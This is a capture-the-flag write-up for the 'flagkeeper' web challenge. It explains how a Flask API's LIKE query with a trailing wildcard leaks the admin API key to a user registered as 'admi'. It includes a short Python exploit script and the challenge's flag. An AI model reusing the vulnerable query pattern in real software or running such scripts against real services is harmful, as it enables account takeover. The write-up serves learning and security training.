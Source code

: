 # flagkeeper

[library.m0unt41n.ch/challenges/flagkeeper](https://library.m0unt41n.ch/challenges/flagkeeper) ![](../../resources/web.svg) ![](../../resources/easy.svg) 

# TL;DR

Simple SQL(ite) injection.

# The app

We get a Flask app. We can

*   Register a user and log in
    *   The user will be assigned a random hex *"API Key"*.
    *   And also a random hex `flag`
*   View "profile" - just the username and the API Key
*   A similarly simple "dashboard", for viewing the flag

The real flag is stored in `admin` user account, initialized at start.

Looking at the code of the underlying API, there is more:

*   `GET /api/key` - returns the API key for current user
*   `POST /api/token_login` - allows login, but with the API key
    instead of password
*   `GET /api/flag` - returns the flag for current user

# The bug

In the `/api/key` handler we have:

```python
@app.route("/api/key", methods=["GET"])
def apikey():
    if "username" not in session:
        return Response(status=401, response="Unauthorized")
    db = get_db()
    cursor = db.cursor()
    cursor.execute(
        "SELECT apikey FROM users WHERE username LIKE ?", (session["username"] + "%",)
    )
    user = cursor.fetchall()
    return Response(status=200, response=json.dumps(user))
```

Note the **`LIKE ?`** part. This means that if we register a user with
name similar-enough to admin, that query will return his API key.
Which we can then use with `/api/token_login` and get the flag.

We aren't free to use SQL injection directly in the username:

```python
    valid_chars = string.ascii_letters + string.digits
    if not all(c in valid_chars for c in username):
        return Response(status=400, response="Invalid username")
```

But, see above `/api/key` handler - it conveniently does this for us &#128512;

With that, the exploitation is simple:

```python
import requests
import json

URL="http://localhost:5000"

s = requests.session()
r = s.post(URL+"/api/register", data={
    "username": "admi",
    "password": "admi"
})
print(r.text)
r = s.get(URL+"/api/key")
print(r.text)
j = json.loads(r.text)
print(j)
for k in j:
    key = k[0]
    r = s.post(URL+"/api/token_login", data={
        "apikey": key,
    })
    print(r.text)
    r = s.get(URL+"/api/flag")
    print(r.text)
```

---

## `stairctf{4lm0st_l1k3_th3_4dm1n!}`


<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
